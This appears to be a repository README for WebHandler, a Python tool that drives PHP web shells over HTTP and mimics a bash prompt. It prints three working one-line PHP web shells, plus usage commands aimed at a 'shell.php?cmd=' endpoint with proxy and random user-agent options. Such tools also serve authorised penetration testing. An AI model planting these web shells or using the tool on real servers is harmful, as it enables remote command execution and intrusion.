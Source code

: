 
WebHandler - command controller for PHP system function
---
![My image](http://s9.postimage.org/6u4546aov/icommand.png)

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...  
The script tries to simulate Linux bash as it works from CLI.  
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".  
It sends requests to the server through urllib/urllib2 [Python][] modules.  

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080


__Requirements__
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.  
To install it run (as root): `easy_install argparse` **OR** `pip --install argparse`  

[readline][] **is optional**.  
This module it used to provide elaborate line editing and history features

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
